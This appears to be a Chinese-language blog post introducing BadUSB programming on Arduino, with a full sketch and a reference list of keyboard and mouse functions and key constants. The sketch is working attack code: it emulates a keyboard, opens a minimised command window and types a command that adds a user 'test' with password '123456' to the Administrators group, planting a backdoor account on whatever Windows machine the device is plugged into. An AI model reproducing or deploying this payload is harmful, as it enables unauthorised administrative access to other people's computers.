 ```yaml
---
title: badusb-代码篇
date: 2021-02-20 19:53:14
urlname: badusb
categories: 
	- 硬件开发
tags: 
    - Badusb
---
```


#### badusb代码介绍及分享

建议先在虚拟机测试，有些badusb恶意代码会使你的电脑系统受损，badusb对linux系统无效，如将badusb循环执行 Alt +F4 关闭窗口则无法在windows烧写，这时候就可以使用Linux版的Arduino进行烧写（树莓派等）。更多badusb代码可上[github](https://github.com/) 查看

[编写软件](https://www.arduino.cc/en/software)

#### 添加用户示例代码：

```bash
#include <Keyboard.h>
void setup() {
  // 这里执行一次
  Keyboard.begin();//开始键盘通讯 
  delay(2000);//初始化时间
  Keyboard.press(KEY_LEFT_GUI); //点击win键
  delay(50); //延迟执行时间
  Keyboard.press('r'); //点击r键
  delay(50);
  Keyboard.release(KEY_LEFT_GUI); //释放win键
  Keyboard.release('r'); //释放r键
  delay(50);
  Keyboard.println("cmd.exe /T:01 /K mode CON: COLS=16 LINES=1"); //打开cmd并将串口最小化
  delay(100);
  Keyboard.press(KEY_RETURN); //回车
  Keyboard.release(KEY_RETURN); //释放回车
  delay(50);
  Keyboard.println("net user test 123456 /add&net localgroup Administrators test /add"); //添加test用户
  delay(1000);
  Keyboard.press(KEY_RETURN);
  Keyboard.release(KEY_RETURN);
  delay(1000);
  Keyboard.println("exit");
  delay(50);
  Keyboard.press(KEY_RETURN);
  Keyboard.release(KEY_RETURN);
  Keyboard.end();//结束键盘通讯 
}
 
 
void loop() {
  // 这里循环执行
 
}
```



#### 按键介绍

```bash
delay(5000);//延时毫秒
 
Keyboard.begin();     //开始键盘通讯
Keyboard.end();     //结束键盘通讯
Keyboard.press();     //按下键盘按键     如果是非特殊按键如 数字、字母按键用单引号括起来
Keyboard.release();     //释放键盘按键
Keyboard.println("");     //输入字符串使用双引号括起来
 
 
Mouse.begin();//鼠标事件开始
Mouse.click();//鼠标单击
Mouse.end();//鼠标事件结束
Mouse.move();//鼠标移动(x,y)
Mouse.press();//鼠标按下
Mouse.release();//鼠标松开
Mouse.isPressed();// 
 
 
KEY_LEFT_CTRL
KEY_LEFT_SHIFT
KEY_LEFT_ALT
KEY_LEFT_GUI    //win键
KEY_RIGHT_CTRL
KEY_RIGHT_SHIFT
KEY_RIGHT_ALT
KEY_RIGHT_GUI
KEY_UP_ARROW
KEY_DOWN_ARROW
KEY_LEFT_ARROW
KEY_RIGHT_ARROW
KEY_BACKSPACE
KEY_TAB
KEY_RETURN//回车键
KEY_ESC
KEY_INSERT
KEY_DELETE
KEY_PAGE_UP
KEY_PAGE_DOWN
KEY_HOME
KEY_END
KEY_CAPS_LOCK
KEY_F1
KEY_F2
KEY_F3
KEY_F4
KEY_F5
KEY_F6
KEY_F7
KEY_F8
KEY_F9
KEY_F10
KEY_F11
KEY_F12
```

